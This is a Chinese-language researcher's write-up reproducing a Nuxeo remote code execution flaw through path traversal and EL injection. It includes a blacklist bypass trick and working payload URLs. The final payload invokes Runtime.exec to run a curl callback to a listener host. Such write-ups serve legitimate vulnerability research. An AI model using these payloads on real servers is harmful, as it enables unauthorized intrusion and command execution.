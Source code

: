 不知道orange是怎么发现的`widgets/suggest_add_new_directory_entry_iframe.xhtml`，这个效果是这样的，它可以返回一个可控制的字符串，就是说我们可以控制在代码中`actionExpression.invoke() `的结果，那就相当于是EL注入了。
到这为止的POC是：
```
http://host/nuxeo/login.jsp;/..;/whatever.xhtml?actionMethod=widgets/suggest_add_new_directory_entry_iframe.xhtml:request.getParameter('directoryNameForPopup')&directoryNameForPopup=/?#{EL}
```
# Bypass

这儿没什么可说的，简单的黑名单字符串匹配导致的绕过，改一下写法就行，如`"".getClass()`改成`"".["class"]`。再往后就是EL注入的内容了

#Payload
这儿踩坑了，我一开始是直接用的orange的payload，结果炸了，我后跟了好几次数据，我不清楚是不是环境问题，我的环境在`FacesMnager`中有个检查
```
         StringTokenizer tokens = new StringTokenizer( url.substring(loc), "?=&" );
         while ( tokens.hasMoreTokens() )
         {
            String name = tokens.nextToken();
            if (tokens.hasMoreTokens())
            {
               String value = Interpolator.instance().interpolate( tokens.nextToken() );
               parameters.put(name, value);
            }
            
         }
```
orange的payload在我这能过`while`却过不了`if`，也就是说到不了`interpolate()`中，我只能硬着头皮重新构造，将`/?=#{}`改成`/?=/=#{}`成功绕过了
这儿绕过去后面又发现怎么都无法执行EL，整整墨迹了一个多小时，又和@行军本地搭建调试了EL，发现都没什么问题，最后借鉴了[JBOSS Seam框架远程代码执行漏洞](http://www.voidcn.com/article/p-ohiqbrje-sh.html)，从定位接口开始，定位出`java.lang.getRuntime()`和`java.lang.Runtime.exec()`，然后直接合并进行EL注入，最后的成品payload:
```
http://172.17.0.2:8080/nuxeo/login.jsp;/..;/create_file.xhtml?actionMethod=widgets/suggest_add_new_directory_entry_iframe.xhtml:request.getParameter('directoryNameForPopup')&directoryNameForPopup=%2f%3f%3d%2f%3d%23{''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'curl 172.17.0.1:9898')}
```